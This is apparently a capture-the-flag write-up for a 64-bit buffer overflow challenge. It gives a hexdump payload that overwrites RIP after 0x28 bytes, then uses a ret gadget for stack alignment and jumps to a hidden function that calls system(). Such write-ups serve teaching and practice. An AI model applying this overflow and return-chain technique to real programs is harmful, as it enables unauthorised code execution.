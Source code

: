 # solution
Payload we need to send to the tool is:
```
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
*
00000020  42 42 42 42 42 42 42 42  c6 05 40 00 00 00 00 00  |BBBBBBBB..@.....|
00000030  c7 05 40 00 00 00 00 00  0a                       |..@......|
00000039
```

The 0x41 overflow the buffer and after 0x28 * "A" we have control of RIP.

We create a mini ROP chain consisting of a retnop to 0x4005c6, which ensures our 64 bit stack is properly aligned.
Then we just jump into the "secret" function "profit" at 0x4005c7 which conveniently calls system() for us.

See solve.sh and solution.py.